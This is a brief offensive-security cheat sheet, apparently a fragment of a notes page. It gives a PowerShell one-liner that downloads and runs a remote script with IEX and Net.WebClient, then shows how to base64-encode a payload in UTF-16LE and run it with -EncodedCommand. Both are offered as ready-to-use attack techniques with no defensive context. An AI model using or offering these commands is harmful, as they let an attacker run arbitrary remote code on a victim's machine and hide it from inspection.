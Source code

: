 ### Download and execute ps1

```
IEX(New-Object Net.WebClient).downloadString('http://192.168.1.1/blah.ps1')
```

### Execute command from base64

First convert your payload to utf16 little endian
```
echo test | iconv -t UTF-16LE
```

```
powershell -EncodedCommand <base64>
```
